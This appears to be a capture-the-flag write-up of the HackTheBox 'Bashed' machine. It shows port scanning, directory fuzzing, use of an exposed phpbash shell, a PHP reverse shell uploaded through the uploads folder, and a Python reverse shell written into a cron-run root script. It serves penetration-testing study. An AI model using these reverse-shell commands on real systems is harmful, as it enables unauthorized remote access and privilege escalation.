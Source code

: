 ```yaml
---
layout: post
title: "bashed"
date: 2025-09-02 
categories: OSCP Playlist
---
```

# bashed

## Summary:

- Fuzzed and found /dev dir which served a phpbash
- sudo -l to find we can execute as another user
- upload php reverse shell
- found script executed by root routinely
- got reverse shell executed as user root

First enumerate the open ports and services:

```bash
sudo nmap -sC -sV 10.10.10.68 -oN nmap/bashed

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

```

Let’s visit the web page

![image.png]({{ site.baseurl }}/assets/bashed/image.png)

Let’s fuzz:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.68/FUZZ -ic

images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 27ms]
                        [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 33ms]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 25ms]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 23ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 29ms]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 25ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 29ms]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 24ms]
                        [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 20ms]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 23ms]
```

We go on the /dev/ directory we find phpbash web shell.

![image.png]({{ site.baseurl }}/assets/bashed/image%201.png)

We look in /home dir we find two users:

```bash
ls -l

total 8
drwxr-xr-x 4 arrexel arrexel 4096 Jun 2 2022 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 2017 scriptmanager
```

Let’s check our sudo privileges:

```bash
sudo -l

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

Seems like we can execute any commands as scriptmanager. Let’s go into scriptmanager dir:

```bash
sudo -u scriptmanager cat .bash_history

#nothing
```

Let’s see what files/dir are owned by scriptmanager

```bash
find / -user scriptmanager 2>/dev/null

/scripts
find: '/scripts/test.py': Permission denied
find: '/scripts/test.txt': Permission denied

sudo -u scriptmanager find / -user scriptmanager 2>/dev/null
```

Let’s cat them out

```bash

sudo -u scriptmanager -i

sudo -u scriptmanager cat scripts/test.txt
sudo -u scriptmanager cat scripts/test.py

sudo -u scriptmanager crontab -l
```

Not much. Let’s get a reverse shell so it’s easier to navigate

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.7/9001 0>&1'
```

Does not work. Let’s upload a php reverse shell as we know that the web executes php code. We download the reverse shell from pentest monkey and edit the IP address and port number

```bash
$ip = '10.10.16.7';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

Now let’s start a python server and transfer the file over:

```bash
python3 -m http.server 8001

#on target
cd /var/www/html/uploads
wget http://10.10.16.7:8001/rev.php
```

Now start a listener and visit the page:

```bash
nc -lnvp 4444

#On browser
http://10.10.10.68/uploads/rev.php
```

![image.png]({{ site.baseurl }}/assets/bashed/image%202.png)

upgrade shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can switch to scriptmanager user with su:

```bash
sudo -u scriptmanager -i

cd /scripts

ls -la

-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Sep  2 02:04 test.txt

```

```bash
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

```

It seems like root is executing [test.py](http://test.py). Let’s get it to execute a python reverse shell instead:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

Start listener:

```bash
	nc -lnvp 9001
```

We can test out if the script works by executing it. After a few minutes, we have root